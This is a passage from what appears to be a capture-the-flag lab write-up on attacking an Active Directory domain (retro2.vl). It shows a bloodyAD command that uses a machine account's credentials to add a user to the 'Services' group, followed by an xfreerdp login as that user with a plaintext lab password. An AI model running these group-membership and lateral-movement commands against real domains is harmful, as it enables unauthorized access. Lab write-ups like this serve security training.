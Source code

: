 But we lack permissions to login with this machine account.

### Ldapreader → SERVICES

So I decided to add **Ldapreader** to the **Services** group to able to RDP as him.

```bash
bloodyAD -d retro2.vl -u 'ADMWS01$' -p 'aashwin10!' --dc-ip 10.129.239.24 add groupMember 'Services' 'ldapreader'
```

![image.png](/assets/images/RetroTwo_VL/image%2026.png)

### RDP as LDAPReader

```bash
xfreerdp /v:bln01.retro2.vl /u:'ldapreader' /p:'ppYaVcB5R' /tls-seclevel:0 
```

![image.png](/assets/images/RetroTwo_VL/image%2027.png)
